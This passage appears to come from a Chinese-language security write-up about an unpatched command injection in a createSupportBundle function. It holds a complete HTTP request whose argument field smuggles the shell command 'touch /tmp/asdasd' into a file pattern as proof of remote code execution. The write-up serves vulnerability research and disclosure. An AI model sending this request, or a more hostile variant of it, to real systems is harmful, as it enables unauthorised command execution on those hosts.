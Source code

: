 [![](assets/1701612478-799e97da39bd0f50220a68158170d79d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230614103007-60a06300-0a5b-1.png)

rce同样用createSupportBundle函数，这个命令注入没修。

```plain
POST /saas./resttosaasservlet HTTP/2
Host: 192.168.1.155
User-Agent: Java/THttpClient/HC
Accept: application/x-thrift
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

[1,"createSupportBundle",1,1,{"1":{"str":"10000"},"2":{"str":"*.tar.gz;touch /tmp/asdasd;ls "},"4":{"lst":["str",0]}}]
```

文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。
